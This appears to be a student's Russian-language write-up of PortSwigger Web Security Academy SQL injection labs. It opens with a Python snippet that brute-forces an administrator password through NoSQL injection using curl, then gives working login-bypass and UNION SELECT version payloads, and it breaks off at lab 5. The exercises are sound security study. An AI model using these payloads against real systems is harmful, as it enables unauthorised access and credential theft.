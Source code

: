 ```
        result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password%5b{i}%5d+%3d%3d+'{j}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()

        resfind = result.find("Could not find user")
        if resfind == -1:
            pass_us+=j
            print(pass_us)
            continue

```

# Отчет по решению SQL injection

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Нашел, что в url параметрах в запросе при поиске пятисотит при вставке '1=1--

```
https://0aac002e042225ac814c524600eb0023.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%271=1--
```

Добавил туда OR и решил

## 2. Lab: SQL injection vulnerability allowing login bypass

В пароль вставил peter'+OR+1=1--

## 3. Lab: SQL injection attack, querying the database type and version on Oracle

Поигрался со строкой url и информацией из шпоры 

```
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+banner,+null+FROM+v$version--
```

## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

То же что и в прошлом пункте

```
GET /filter?category=Clothing%2c+shoes+and+accessories%27+UNION+SELECT+@@version,+null#
```

## 5. Lab: SQL injection attack, listing the database contents on non-Oracle databases
